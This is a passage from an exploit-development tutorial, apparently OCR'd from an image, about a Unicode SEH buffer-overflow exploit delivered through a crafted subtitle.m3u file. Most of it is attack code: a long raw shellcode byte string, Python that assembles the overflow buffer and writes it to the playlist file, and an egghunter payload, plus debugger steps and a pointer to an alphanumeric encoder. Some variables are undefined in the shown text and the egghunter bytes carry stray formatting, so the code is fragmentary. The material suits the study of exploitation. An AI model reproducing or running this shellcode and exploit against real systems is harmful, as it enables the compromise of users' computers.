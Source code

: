 shellcode = (
"\xdb\xc2\xd9\x74\x24\xf4\xbf\xe6\xcb\xb6\xa3\x5d\x33\xc9\xb1"
"\x4b\x31\x7d\x19\x83\xc5\x04\x03\x7d\x15\x04\x3e\x4a\x4b\x41"
"\xc1\xb3\x8c\x31\x4b\x56\xbd\x63\x2f\x12\xec\xb3\x3b\x76\x1d"
"\x38\x69\x63\x96\x4c\xa6\x84\x1f\xfa\x90\xab\xa0\xcb\x1c\x67"
"\x62\x4a\xe1\x7a\xb7\xac\xd8\xb4\xca\xad\x1d\xa8\x25\xff\xf6"
"\xa6\x94\xef\x73\xfa\x24\x0e\x54\x70\x14\x68\xd1\x47\xe1\xc2"
"\xd8\x97\x5a\x59\x92\x0f\xd0\x05\x03\x31\x35\x56\x7f\x78\x32"
"\xac\x0b\x7b\x92\xfd\xf4\x4d\xda\x51\xcb\x61\xd7\xa8\x0b\x45"
"\x08\xdf\x67\xb5\xb5\xe7\xb3\xc7\x61\x62\x26\x6f\xe1\xd4\x82"
"\x91\x26\x82\x41\x9d\x83\xc1\x0e\x82\x12\x06\x25\xbe\x9f\xa9"
"\xea\x36\xdb\x8d\x2e\x12\xbf\xac\x77\xfe\x6e\xd1\x68\xa6\xcf"
"\x77\xe2\x45\x1b\x01\xa9\x01\xe8\x3f\x52\xd2\x66\x48\x21\xe0"
"\x29\xe2\xad\x48\xa1\x2c\x29\xae\x98\x88\xa5\x51\x23\xe8\xec"
"\x95\x77\xb8\x86\x3c\xf8\x53\x57\xc0\x2d\xf3\x07\x6e\x9e\xb3"
"\xf7\xce\x4e\x5b\x12\xc1\xb1\x7b\x1d\x0b\xda\x4a\x39\xe7\x8d"
"\xae\xbd\x19\x12\x27\x5b\x73\xba\x61\xf3\xec\x78\x56\xcc\x8b"
"\x83\xbd\x60\x03\x14\x8a\x6e\x93\x1b\x0b\xa5\xb7\xb0\xa4\x2e"
"\x4c\xdb\x71\x4e\x53\xf6\xd2\x07\xc4\x8c\xb2\x6a\x74\x90\x9f"
"\x1f\x76\x04\x1b\xb6\x21\xb0\x21\xef\x06\x1f\xda\xda\x1c\x96"
"\x4e\xa5\x4a\xd7\x9e\x25\x8b\x81\xf4\x25\xe3\x75\xac\x75\x16"
"\x7a\x79\xea\x8b\xef\x81\x5b\x7f\xa7\xe9\x61\xa6\x8f\xb6\x9a"
"\x8d\x11\x8b\x4c\xe8\x97\xfd\xfa\x18\x54"
)
junk2  =  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0d\x0e"
exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()

 Please note that the reason we don't encode the payload in Unicode is because you can actually find a copy of the payload that hasn't been converted into Unicode in memory. To check this do:

*   View - Memory
*   Click on the first entry starting with the lowest number.
*   Right click and click search.
*   Enter a copy of some of the bytes from your code.
*   Observe the fact that Immunity finds a copy of your code unconverted in memory.

### Generating the Unicode Egghunter + Tag

To generate the last section of this exploit we will need to use skylined's alpha2 alphanumeric shellcode encoder. You can find a copy here: [alpha2.c](https://skypher.com/wiki/index.php/Www.edup.tudelft.nl/~bjwever/src/alpha2.c).

We also need an egghunter. This was obtained from one of corelanc0d3r's awesome tutorials on egghunters. The code is recreated below (taken from [https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/))

```python
"\x66\x81\xCA\xFF\x0F\x42\x52\x6A\\**x02**\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8".
"\x77\x30\x30\x74". # this is the marker/tag: w00t
"\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7";
```
